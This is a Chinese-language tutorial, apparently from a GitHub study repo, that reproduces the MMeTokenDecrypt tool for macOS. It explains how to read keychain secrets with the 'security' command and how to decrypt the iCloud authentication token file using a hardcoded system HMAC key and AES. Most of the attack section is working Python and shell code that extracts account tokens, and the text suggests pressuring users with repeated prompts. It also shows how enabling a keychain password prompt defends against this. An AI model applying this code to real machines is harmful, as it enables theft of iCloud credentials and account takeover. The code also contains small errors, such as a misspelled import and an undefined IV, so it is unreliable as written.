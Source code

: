 # MMeTokenDecrypt实践操作

* 本文实践操作基于[MMeTokenDecrypt](https://github.com/manwhoami/MMeTokenDecrypt)项目。
* 查看翻译请访问：[MMeTokenDecrypt翻译](https://github.com/mail2chensh/OSG_Leaning/blob/master/002_MMeTokenDecrypt/MMeTokenDecrypt%E7%BF%BB%E8%AF%91.md)
* 实践者： Chensh



## 前言背景

在MacOS系统的深处，有一把神秘的小钥匙。这把密钥由44个随机字符组成，它的作用非常大。

有多大？它可以用来解开我们存储在系统里面的授权Token！

我们都知道（未读原文前我根本就不知道，😆），在MacOS里，用户的授权Token都存储在**/Users/\*/Library/Application Support/iCloud/Accounts/**这个目录下，以用户的**iCloud账号**（邮箱）为名的文件，其存储格式是**DSID**，这个文件是加密过的。

那平常系统需要用到这个文件里面存储的token的时候，是如何解密的呢？

这里涉及另外一个密钥，这个密钥存储在用户的**keyChain**里面，一个名为iCloud的条目。

系统需要解密这个DSID文件时，就会从keyChain里面拿出解密密钥，进行**base64编码**，作为**Hmac算法**的**消息体**输入，然后和上面提到的神秘小钥匙进行了**MD5加密**，得到一把新的钥匙。

而这个DSID文件，是采用128位AES的CBC加密模式加密的。CBC加密模式就是密码分组链接模式，这种模式是先将明文切分成若干小段，然后每一小段与初始块或者上一段的密文段进行异或运算后，再与密钥（也就是上面**新**产生的那把钥匙）进行加密。当然，这个过程还混合了一个空的初始化向量进行计算。

所以，根据上文的分析，只要我们找到系统的神秘小钥匙和拿到keyChain里面iCloud的存储条目，那我们就可以尝试解密DSID这个文件，拿到用户的Token。

而这里的神秘小钥匙已经被原文作者找到了并提供出来，作者在原文里主要阐述的是**keyChain里面存在的bug，导致解密密钥容易被泄露**。

那么接下来，我们就开始复现作者的思路。



## keyChain的不安全性

本来keychain作为用户存储密码的载体，应该是做到很安全的，但这里有一个原文作者认为的bug，恶意用户可以根据这个bug来绕过钥匙串密码从而拿到keychain里面存储的条目。当然，这个绕过方式是有条件的，以下分别介绍两种情况。

#### 当用户没有设防

我们首先打开keychain应用(Spotlight里面输入Keychain Access进行搜索)。

然后在左侧**种类**栏目**密码**一项进行选中，右侧就会出现存储在本机上的所有安全信息存储。这里进行筛选，找到我们的试验目标：**Chrome Safe Storage**。这个条目存储了谷歌Chrome浏览器的安全存储信息解密密钥。

![](https://ws1.sinaimg.cn/large/006tKfTcgy1fhb0jtvyiqj31kw087400.jpg)

那要如何拿到这个解密密钥呢？上文我们已经提及到了，这里打开命令行。输入以下命令：

```Shell
$ security find-generic-password -ga 'Chrome'
```

这里使用到了 security命令，它是非常强大命令行安全工具，之前我们[重签](http://chensh.top/2017/06/30/Patching-and-ReSigning-iOS-Apps/)的那篇文章里面也使用到了这个命令去查找有效的证书。

这里的参数解释如下：

* **find-generic-password** 命令参数，是使用“查找密码”的功能。
* **-a**，这个参数是匹配类型为“账户”的，用于过滤。
* **-g**，这个参数是将查询到的密码显示出来。

运行这个命令后，系统马上就会弹出一个提示框，如下：

![](https://ws2.sinaimg.cn/large/006tKfTcgy1fhb0zu1parj30ok0badhp.jpg)



那么到这里，只要用户点击了“允许”按钮，那么就可以马上得到存储在keychain里面的密钥了。如下：

![](https://ws2.sinaimg.cn/large/006tKfTcgy1fhblsp9swej30zg0ngtd0.jpg)

这里security请求钥匙串访问的权限，用户点击“允许”后，就能读取到相应的password。

假如有人未经你允许擅动你电脑，这个时候就可以轻而易举的窃取了你密码。

当然，如果是远程的恶意黑客，那么有可能会无限次弹出弹窗提示，直至逼到你点击“允许”按钮为止。

那我们该如何防范这种情况呢？请往下看。



#### 当用户开启了“询问钥匙串密码”选项

我们回到刚刚keychain 里面那个chrome safe storage的条目，右键选择**显示简介**。

切换到**访问控制**的面板，将**询问钥匙串密码**选中。

![](https://ws3.sinaimg.cn/large/006tKfTcgy1fhblzkxuz7j30ty0jkgnl.jpg)



这里有另外一个小bug，就是keychain里面的更改需要重复两次操作，才能真正的修改成功，当我们勾选了这个选项，切换到*属性*然后再切换回来的时候，发现这个选项又没有被选中，需要再重复操作一遍才行。

然后我们回到命令行，重新输入上面security的命令，这一次我们发现弹窗出来不一样了。这里需要我们输入钥匙串密码。

![](https://ws4.sinaimg.cn/large/006tKfTcgy1fhbm32ymorj30oe0b8tao.jpg)

所以当我们开启了这个选项，就算别人偷偷用你的电脑，没有你的钥匙串密码，也无法得到其中的安全信息。这里就多了一道防护。



以上的操作步骤，我们主要对是否开启钥匙串密码的安全性做一点讨论。接下来我们要使用脚本来自动获取密码，并且结合系统的神秘小钥匙，用来解密我们iCloud条目里面的Token。



## MMeToenDecrypt.py 解析

先引入所需要的库。

```python
import base64, hashlib, hmac, subprocess, sys, glob, os, binasicc
from Foundation import NSData, NSPropertyListSerialization
```

* base64用来加密iCloud的钥匙。
* hashlib用于计算md5
* subprocess用于fork一个子进程，并运行一个外部程序。



按照上面的方法，使用security命令获取iCloud条目的密码。

```Shell
security find-generic-password -ws 'iCloud'
```

* -w 参数是用于仅显示密码项。
* -s 参数是用于指定类型为server的条目，并匹配后面的关键词。

在python里面，我们可以是subprocess库来运行外部程序，将shell环境下命令运行的结果返回到本程序。如果没有获取到，则打印报错信息，再退出程序。

```python
iCloudKey = subprocess.check_output("security find-generic-password -ws 'iCloud' | awk {'print $1'}", shell=True).replace("\n", "")
if iCloudKey == "":
    print "Error getting iCloud Decryption Key"
    sys.exit()
```

得到iCloud的密码后，我们将其进行base64编码

```python
msg = base64.b64decode(iCloudKey)
```

接下来上场的是我们那把神秘的小钥匙了。

它在所有的Macos版本里面都用于生成Hmac哈希。它是用于解密的关键。

在位于**/System/Library/PrivateFrameworks/AOSKit.framework/Versions/A/AOSKit**路径下的系统库，执行了下面的方法，调用了CCHmac来生成一个Hmac，用于解密秘钥。

```swift
KeychainAccountStorage _generateKeyFromData:
```

```python
key = "t9s\"lx^awe.580Gj%'ld+0LG<#9xa?>vb)-fkwb92[}"
```

将上面得到的iCloudKey和系统神秘钥匙使用hmac进行md5计算。

并将我们得到的哈希值进行16进制转换。

```python
hashed = hmac.new(key, msg, digestmod=hashlib.md5).digest()
hexedKey = binascii.hexlify(hashed)
```

我们知道用户的授权Token都存放在**~/Library/Application Support/iCloud/Accounts/** 下，所以要遍历一下该文件夹下面的文件，判断是否为我们所需要的DSID文件(纯数字文件名)。

```python
mmeTokenFile = glob.glob("%s/Library/Application Support/iCloud/Account/*" % os.path.expanduser("~"))
for x in mmeTokenFile:
    try:
        int(x.split("/")[-1])
        mmeTokenFile = x
    except:
        continue
if not isinstance(mmeTokenFile, str):
    print"Could not find MMeTokenFile. You can specify the file manually"
  	sys.exit()
else:
    print "Decrypting token plist -> [%s]\n" % mmeTokenFile
```

接下来我们使用openssl这个命令行工具，将一个空的初始化向量IV和上面已经被16进制转换的密钥，以及我们找到DSID文件，进行128位的AES解密。

```python
decryptedBinary = subprocess.check_output("openssl enc -d -aes-128-cbc -iv '%s' -K %s < '%s'" % (IV, hexedKey, mmeTokenFile), shell=True)
```

这里得到的decryptedBinary是解密出来的二进制数据，我们使用Foundation库里面的类来将它转化为可读取的plist格式。

然后遍历这个plist格式对象，将其中的内容打印出来。

```python
binToPlist = NSData.dataWithBytes_length_(decryptedBinary, len(decryptedBinary))

tokenPlist = NSPropertyListSerialization.propertyListWithData_options_format_error_(binToPlist, 0, None, None)[0]

print "Successfully decrypted token plist!\n"
print "%s [%s -> %s]" % (tokenPlist["appleAccountInfo"]["primaryEmail"], tokenPlist["appleAccountInfo"]["fullName"], tokenPlist["appleAccountInfo"]["dsPrsID"])
print tokenPlist["tokens"]
```



至此，我们的重现步骤到此结束，整个流程下来你可以发现，只要用户不小心点击了“允许”按钮，我们就很容易的窃取到了iCloud里面的Token。

你可以尝试在自己的机子上运行这份代码，假如能够打印出来相关的iCloud账号Token，那就说明你成功重现了。

![](https://ww1.sinaimg.cn/large/006tKfTcgy1fgpsk3r7b3j308c08c3ys.jpg)





